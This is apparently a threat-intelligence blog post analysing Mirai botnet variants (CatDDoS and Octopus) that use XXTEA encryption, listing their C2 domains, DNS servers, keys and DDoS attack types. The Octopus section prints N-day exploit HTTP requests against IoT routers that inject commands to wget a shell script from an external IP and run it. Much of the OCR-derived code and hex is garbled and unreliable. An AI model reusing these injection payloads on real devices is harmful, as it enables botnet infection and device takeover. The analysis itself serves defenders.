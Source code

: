 ```yaml
---
title: 'Analysis of the Mirai Botnet Encrypted with XXTEA'
date: 2024-12-28
permalink: # /posts/2012/08/blog-post-1/
tags:
  - malware
  - mirai
---
```


# Analysis of the Mirai Botnet Encrypted with XXTEA

**Date**: 2024-12-28 09:00:00

## I. Background
Recently, 360 Security Brain detected a batch of botnet samples that integrate the XXTEA algorithm for encryption based on the leaked source code of Mirai, targeting IoT/Linux devices of various architectures such as ARM, MIPS, and x86.

## II. Sample Analysis

### 2.1 Mirai.CatDDoS
The first batch of captured samples is a variant of the Mirai botnet operated by the CatDDoS group. Taking the sample adda181984cda825dbfa1cb071a066f5 as an example, its source code basic structure is as follows:
- Source File: 'attack.c'
- Source File: 'attack_tcp.c'
- Source File: 'attack_udp.c'
- Source File: 'checksum.c'
- Source File: 'killer.c'
- Source File:'main.c'
- Source File: 'rand.c'
- Source File:'resolv.c'
- Source File: 'util.c
- Source File: 'watchdog.c'
- Source File: 'xxtea.c'

Compared with the leaked Mirai source code, Mirai.CatDDoS does not contain the scanner.c module used for Telnet brute force cracking, and replaces the table.c module used for XOR decryption of strings with 0xdeadbeef with the xxtea.c implementation. The 16-byte XXTEA algorithm key is:
xxteakey
db 78h x
db 56h db 34h ;4 12h db
db 21h ; db 43h db 65h db 87h db 68h db 98h db OBAh db ODCh db OFEh
V
!Ce
h$W

There are 3 cross-references in total. The first one is to decrypt the string output to the console after the sample runs, and the XXTEA decrypted result is "Hello, world!":
public executionString executionString db 7
db OA0h db OE9h db OEBh db 0A5h db 46h;F
db 0E7h db 0DBh db 0C6h db 3Bh db ODh db 14h db 3
db 0B3h db 0E2h db 14h

The other two are used to decrypt the C2 addresses contained in the sample, which are: retardedclassmate.dyn and servernoworky.geek. These two C2 addresses have appeared in the report [2] describing the recent attack activities of the CatDDoS group.
public domain1 ; unsigned int domain1[8] domain1
dd 0C05899FEh, 593E894h, 8E64836Fh, 0F330706Ch, 1633A28Bh ; DATA XREF: resolve_cnc_addr+41↑o
dd 3 dup(0)
public domain2 ; unsigned int domain2[6] domain2
dd OFAEA39DEh, 77D499ADh, 57FC7CD7h, 21D59725h, 3BA0CABEh ; DATA XREF: resolve_cnc_addr+5Dto
dd OBDD3FEFh

Since the C2 is an OpenNIC domain name and cannot be resolved via public DNS servers, the sample has hard-coded the OpenNIC DNS server used for C2 resolution:
1 unsigned int _fastcall get_dns(_int64 a1)
2345
{ unsigned int result; // eax
6 result =(unsigned int)rand_next(a1) % 11;
switch (result)
7 {
89
case Ou:
result = htonl(0xC30AC3C3); //195.10.195.195
10 11 case 1u: break;
12 result = hton1(0xC2249057); //194.36.144.87
13 break;
14 case 2u:
15 result = htonl(0x33FEA23Bu); //51.254.162.59
16 break;
17 18 case 3u: result =htonl(0x5E1072FEu); //94.16.114.254
19 break;
20 21 case 4u: result = htonl(0x339E6CCBu); //51.158.108.203
22 23 24 case 5u: break; result =htonl(0x334D958Bu); //51.77.149.139
25 26 case 6u: break;
28 27 29 case 7u: result = htonl1(0xB2FE16A6); break; //178.254.22.166
31 30 32 33 case 8u: result = hton1(0x51A988DEu); break; result =htonl(0x86C30402); //81.169.136.222 //134.195.4.2
34 35 36 case 9u: break; result = htonl(0x5BD98925u); //91.217.137.37
37 break;
38 39 case 0xAu: result = hton1(øxB9B53D18); //185.181.61.24
40 41 default: break;
42 43 44 45 return result; } return result;

The C2 port is randomly selected between 25596 and 25616. In terms of the communication mechanism, Mirai.CatDDoS basically follows the original design of Mirai, except that the fixed 4-byte \x00\x00\x00\x01 when Mirai goes online is modified to a fixed 8-byte:
unk_F010 db 31h 1
db 73h ;s
db 13h db 93h db 4
db 83h db 32h ;2
db 4

The captured actual traffic is as follows:
00000000 31 73 13 93 04 83 32 04 1s....2.
0000000800 000000090000
000000000000 0000000B0000
000000020000

In terms of the ATTACK_VECTOR, Mirai.CatDDoS implements a richer variety of DDoS attack types than Mirai. The comparison is as follows:
| Mirai | Mirai.CatDDoS |
|--|--|
| No. | Attack Method | No. | Attack Method |
| 0 | attack_udp_generic | 0 | attack_udp_plain |
| 1 | attack_udp_vse | 1 | attack_tcp_syn |
| 2 | attack_udp_dns | 2 | attack_tcp_stomp |
| 3 | attack_tcp_syn | 3 | attack_tcp_ack |
| 4 | attack_tcp_ack | 4 | attack_tcp_tcp |
| 5 | attack_tcp_stomp | 5 | attack_tcp_bypass |
| 6 | attack_gre_ip | 6 | attack_tcp_socket |
| 7 | attack_gre_eth | 7 | attack_udp_pps |
| 8 | attack_app_proxy | 8 | attack_tcp_ovh |
| 9 | attack_udp_plain | 9 | attack_gre_ip |
| 10 | attack_app_http | 10 | attack_udp_ovhhex |
| | | 11 | attack_udp_openvpn |
| | | 12 | attack_method_udprape |
| | | 13 | attack_udp_r6 |
| | | 14 | attack_tcp_ovhtest |

Based on relevant characteristics, we have associated a batch of similar samples. They are more concise and more similar to the original Mirai in terms of code function and structure design. It is speculated that they may be earlier bot versions. From the naming method of the C2, it conforms to the consistent style of the CatDDoS group - that is, having a special preference for "cats". The similarities and differences between the old and new versions are as follows:
| Old Version | New Version |
|--|--|
| Decryption Algorithm | ^ (XOR) | XXTEA |
| Key | 0xDEADBEEF | 78 56 34 12 21 43 65 87 <br> 68 24 57 13 98 BA DC FE |
| C2 Address | catsarecool.gopher <br> ilikecats.parody <br> ihateyou.indy <br> catsliketo.pirate <br> kittycattos.dyn | retardedclassmate.dyn <br> servernoworky.geek |
| Port | 9932 | Randomly selected between 25596 and 25616 |
| Bot Online | 00 00 00 01 | 31 73 13 93 04 83 32 04 |
| DDoS Instruction | Integrated 15 attack methods including tcp and udp | |

The recent DDoS attack trend of Mirai.CatDDoS is shown below:
1,000 800
Attack Times Victim Count
600
400
200
2024-06-19 2024-06-20 2024-06-21 2024-06-22 2024-06-23 2024-06-24 2024-06-25
Global Attack Data
>1000 500-1000 100-499 10-99 1-9 0
(
 z

### 2.2 Mirai.Octopus
Mirai.Octopus is another variant of the Mirai botnet that uses the XXTEA encryption algorithm. Octopus comes from the special UA feature left by the attacker.
aPostGponformDi db 'POST /GponForm/diag_ Form? images/ HTTP/1.1',0Dh, øAh
db 'Host: 127.0.0.1:8080',0Dh,0Ah
db 'Connection: keep-alive',0Dh, 0Ah
db 'Accept-Encoding: gzip, deflate',ODh,øAh ; DATA XREF: exploit_socket_gpon8080+58↑o
db 'Accept:*/*',0Dh,0Ah
db 'User-Agent: Hacked-by-0ctopus-botnet',ODh, 0Ah
db 'Content-Length:118',0Dh,0Ah
db 0Dh,0Ah
db 'XwebPageName=diag&diag_action=ping&wan_conlist=0&dest_host='';wge'
db 't+http://85.217.144.71/ocwget.sh+-0+->/tmp/ocwget.sh;sh+/tmp/ocwg'
db 'et.sh&ipv=0

Mirai.Octopus follows many designs in the Mirai source code, such as binding to the local port to achieve single instance running, randomizing the process name, preventing the watchdog from restarting the device, and the report server receiving the brute force cracking results. At the same time, it has developed many new malicious functions, including:
- Nday Vulnerability Propagation
- Persistence Mechanism
- Using XOR + XXTEA Encryption Algorithm

#### Nday Vulnerability Propagation
In addition to the original Telnet weak password brute force cracking mechanism in Mirai, Mirai.Octopus has also added a batch of N day vulnerability exploits for propagation, which are:
POST /GponForm/diag Form2images/ HTTP/1.1\r lnHost: 127.0.0.1:8080 /nConnection: keep-livel InAccept-Encoding: gzip, deflate l r inAccept / \ nUser-Agent Hacked-by-Octopus-botnetlr\nContent-Leng..
POST /GponForm/diag_ Form2images/ HTTP/1. 1\rlnHost: 127.00.1:801r InConnecion: keep-livelr inAccept-Encoding: gzip, deflatelrInAccept: /\ lnUser-Agent: Hacked-by-Octopus-botnet lrInContent-Length..
POST /picsdesc xml HTTP/1. 1V/nHost: %6s:52869\ /nContent Length: 630l InAccept-Encoding: gzip, deflatelr nSOAPAction: urn:schemas-upnp-org:service: WANIPConnection:1#AddPortMapping)r nAcept /..
POST /picsdescxml HTTP/1. 11r/nHost: %6s:52869\r /nContent Length: 630\ /nAccept-Encoding: gzip, deflate lr nSOAPAction: urnischemas-upnp-org:service: WANIPConnection:1 #AddPortMapping r nAcept: /.
GET /setup.cgi?next file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/ wget+htp://85.217.144.71/ocwget.sh+-0+/tmp/ocwget.shish+ocwget.sh8&curpath=/8&currentsetting.htm=1 HTTp/1.0rlnn
POST /ctrit/DeviceUpgrade 1 HTTP/1.1Vr InHost: %:37215\r\nContent-Length: 601V InConmection: keep-alivelr /nAuthorization: Digest username=\'dsif-config), realm=\'HuaweiHomeGateway\", nonce=|886.
POST /UD/act?1 HTTP/1.1\r \nHost: 127.0.0.17574\ r InUser- Agent: Hacked-by-Octopus-botnet r InSOAPAction: urn:dsforum-org:service:Time: 1#SetNVTPServers r inContent-Type: text/xml r inContent- Length: d..
POST /UD/act?1 HTTP/1. 1\Vr/nHos: 127.0.0.1:5555/ InUser- Agent: Hacked-by-Octopus-botnetlrInSOAPAction: urn:dsforum-org:service:Time:1#SetNTPServersir nContent-Type: text xml r nContent-Length: %d..
POST /HNAP1/ HTTP/1.0r lnHost: %6s:80 nContent-Type: text xmt: charset=1 ut-81 1r1nSOAPAction: htp:/purenetworks.com/HNAP1/ cd /tmp &&8 m -if && wget http://85.217.144.71/ocwget.sh 8&& sh /tm..
GET /language/Swedish$(IFS)&&&&cd$(IFS)/tmp;rm$(IFS)-rfS(IFS) ;wget$(IFS}http://85.217.144.71/ocwget.sh;sh$(IFS)/tmp/ocwget.sh&t>r&&tar$(IFS)/string,js HTTP/1.0 r n)r/n
GET /shell?cd+/tmprm+-rf+ ;wget+http://85.217.144.71/0cwget.shish+/tmp/ocwget.sh HTTP/1 11r nUser-Agent Hacked-by-Octopus-botnet r inHost %s:80 r/nAccept text/html,.application/xhtml+xm,applicat.
POST /soap.cgi?senice=WANIPConn1 HTTP/1.1V/ nHost %s:491521/1nContent- Length: 630lrInAccept-Encoding: gzip, deflatelrinSOAPAction: urn:schemas-upnp-org:service:WANiPConnection:1#AddPortMap.
GET /cgi-bin/;cd$(IFS)/var/tmp;rm$(IFS)-rfS(IFS) ;$(IFS)wget$(IFS}http://85.217.144.71/ocwget.sh; $(IFS)sh$(IFS)/var/tmp/ocwget.sh

CVE-2018-10561, CVE-2018-1